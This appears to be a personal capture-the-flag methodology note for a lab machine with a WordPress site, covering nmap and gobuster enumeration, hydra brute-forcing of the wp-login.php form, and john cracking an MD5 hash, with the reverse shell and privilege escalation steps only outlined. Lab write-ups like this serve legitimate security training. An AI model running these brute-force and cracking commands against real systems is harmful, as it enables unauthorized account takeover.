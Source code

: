 # Methodology

## Preparation
```bash
export IP="10.10.165.80"
```

## Port enumeration
```bash
mkdir -p scans/nmap
nmap -v -sC -sV -oN nmap/initial $IP
nmap -v -p- -oN nmap/all_ports $IP
```

## HTTP enumeration
```bash
mkdir -p scans/gobuster
gobuster dir -u http://$IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster/medium_list -x php,sh,cgi,txt,html,js,css,py
```

## Brute force
```bash
# L = Username wordlist
# l = Username
# P = Password list
# p = password

# Command guide
# sudo hydra <Username/List> <Password/List> <IP> <Method> "<Path>:<RequestBody>:<IncorrectVerbiage>"

# Brute forcing username
sudo hydra -L downloads/fsocity.dic -p "sample" $IP http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username"

# Brute force password
sudo hydra -l Elliot -P downloads/fsocity.dic $IP http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered for the username"
```

## Reverse Shell
```bash

```

## Password bruteforce
```bash
# Crack MD5 password found using john

# Command guide
# john <filename> --wordlist=<wordlist> --format=<hash format>

# Determine the file hash type using hash-identifier

john md5.hash --wordlist=downloads/fsocity.dic --format=Raw-MD5

```

# Comments
-   enumerate ports using nmap
    -   found ports 80 and 443
-   enumerate website pages using gobuster
    -   found /login
-   check for available files in robots.txt
    -   found dic and txt
-   use hydra to brute force login
    -   https://infinitelogins.com/2020/02/22/-how-to-brute-force-websites-using-hydra/
-   create php revershell
    -   ready
-   check home directories
    -   
-   crack password found using john
-   change shell to interactive using python
-   change to another user using password found
-   find SUID binaries
-   privilege escalation using SUID enabled binaries